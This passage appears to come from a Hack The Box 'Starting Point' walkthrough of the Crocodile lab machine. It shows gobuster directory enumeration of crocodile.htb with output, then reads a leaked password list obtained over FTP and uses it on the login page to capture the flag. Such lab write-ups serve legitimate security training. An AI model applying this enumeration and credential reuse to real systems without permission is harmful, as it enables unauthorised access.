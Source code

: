 We'll use [Gobuster](../../../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to enumerate the directories :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Crocodile]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -u http://crocodile.htb -x php

/.php                 (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 315] [--> http://crocodile.htb/assets/]
/css                  (Status: 301) [Size: 312] [--> http://crocodile.htb/css/]
/js                   (Status: 301) [Size: 311] [--> http://crocodile.htb/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 314] [--> http://crocodile.htb/fonts/]
/dashboard            (Status: 301) [Size: 318] [--> http://crocodile.htb/dashboard/]
```

The answer is `login.php`.
# Submit root flag

We can cat the other file from [FTP](../../../../3%20-%20Tags/Hacking%20Concepts/FTP.md) to see the admin password :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Crocodile]
└─$ cat allowed.userlist.passwd 
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

Now we can use the credentials on the login page : 

![Pasted image 20250731163231.png](../../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250731163231.png)

And we retrieve the flag.
